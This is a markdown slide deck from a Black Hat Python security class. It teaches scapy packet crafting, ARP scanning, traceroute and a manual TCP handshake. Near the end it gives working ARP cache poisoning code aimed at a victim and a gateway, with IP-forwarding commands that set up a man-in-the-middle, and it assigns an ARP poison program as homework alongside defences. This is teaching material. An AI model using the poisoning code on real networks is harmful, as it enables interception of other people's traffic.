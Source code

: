 ## Welcome to class 5!

### Black Hat Python3 

### Raleigh ISSA

---

## Github repo

https://github.com/tiarno/bhp3_class

---

## Summary from last class

- UDP scanning
- Git commands on local
- Git commands for remote/upstream
- python import techniques
- code reuse (`getwords`)
- context managers

---

## scapy

- python library
- interative tool using Python REPL (shell)
- create, decode, send, receive packets

---

## Interactive scapy shell

```python
>>> IP()
<IP |>
>>> target="www.google.com/30"
>>> ip=IP(dst=target)
>>> ip
<IP  dst=<Net www.google.com/30> |>
>>> ips = [p for p in ip]
>>> ips
[<IP  dst=172.217.4.36 |>, <IP  dst=172.217.4.37 |>, 
 <IP  dst=172.217.4.38 |>, <IP  dst=172.217.4.39 |>]

>>> a = ips[0]
>>> a.dst
172.217.4.36
>>> a.ttl
64
```

---

## Another view

```
>>> str(a)
"b'E\\x00\\x00\\x14\\x00\\x01\\x00\\x00@\\x00\\x07\\xff\\xc0\\xa8\\x01E\\xac\\xd9\\x04$'"
>>> new_ip = IP(str(a))
>>> new_ip
<IP  version=6 ihl=2 tos=0x27 len=17756 id=30768 flags=MF frag=4188 ttl=120 proto=dsr chksum=0x305c src=120.49.52.92 dst=120.48.48.92 options=[<IPOption  copy_flag=0 optclass=3 option=upstream_multicast_packet length=48 value='1\\x00\\x00@\\x00\\x07\\xff\\xc0\\xa8\\x01E\\x' |>] |<Raw  load="ac\\xd9\\x04$'" |>>
```

---

## `lsc()`, `ls()`

- IP
- TCP
- ICMP

---

## Common Commands

- rdppcap
- wrpcap
- send
- sr
- sniff
- filter (BPF)

---

## ARP

```python
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
arp = ARP(pdst='192.168.1.69/24')
ans, unans = srp(ether/arp, iface='en0', timeout=2) #Layer2
for snd, rcv in ans:
    print(rcv.sprintf(r"%ARP.psrc% %Ether.src%").split())
```

---

## Even Faster:

```python
r, u = arping('192.168.1.0/24')
```

```python
r[0][1].show()
```

## Scapy Graphics

```python
res, unans = traceroute(['reachtim.com'], dport=[443], maxttl=20, retry=-2)

res.graph()
```

---

```python
hosts = [
    'www.microsoft.com', 'www.cisco.com', 
    'www.yahoo.com', 'www.wanadoo.fr', 
    'www.pacsec.com']

res, unans = traceroute(hosts, dport=[80,443], maxttl=20, retry=-2)
res.graph()
```

---

```python
a = Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"

hexdump(a)

a[0].pdfdump(layer_shift=1)
```
http://www.asciitable.com

---

## BPF

http://biot.com/capstats/bpf.html

---

## Three-way Handshake

- on "attacker":
    - `iptables -t filter -I OUTPUT -p tcp --sport 10000 --tcp-flags RST RST -j DROP`
    - `tcpdump -ni any port 8000 -S`

---

```python
me, sport = '192.168.1.100', 10000
them, dport = '192.168.1.69', 8000
#
ip = IP(src=me, dst=them)
syn = TCP(sport=sport, dport=dport, flags='S', seq=1000)
synack = sr1(ip/syn)
ack = TCP(sport=sport, dport=dport, flags='A', seq=synack.ack, ack=synack.seq+1)
send(ip/ack)
```

---

## ARP Poison

- poison ARP cache of two devices
- tell each device attacker MAC is the other's address
- man-in-the-middle: monitor communications


- mac: `sysctl -w net.inet.ip.forwarding=1`
- linux: `echo 1 > /proc/sys/net/ipv4/ip_forward`

---

## ARP Poison code

```python
mymac = get_if_hwaddr('en0')
victim = '192.168.1.100'
gateway = '192.168.1.254'
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=victim, pdst=gateway)
sendp(packet)
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=gateway, pdst=victim)
sendp(packet)
```

---

## Python Named Tuples

- immutable
- reference values like object properties
- more readable code

```
Point = namedtuple('Point', 'x y')
pt = Point(1.0, 2.0)
pt.x
pt.y
```

---

## ARP Poison Program

`arper.py`

---

## Your Job

- Reading (links below)
- Create your ARP Poison program
- Recreate your network scanner using scapy
- Consider ways to protect against it

---

## Reading


1. https://scapy.net/demo/
2. https://thepacketgeek.com/series/building-network-tools-with-scapy/
3. https://www.cisco.com/c/en/us/products/collateral/switches/catalyst-6500-series-switches/white_paper_c11_603839.html
4. https://codingsec.net/2016/06/arp-spoofing-attack/
5. http://biot.com/capstats/bpf.html


---


## Feedback please!

- tim@reachtim.com
- discord: https://discord.gg/WR23qUj

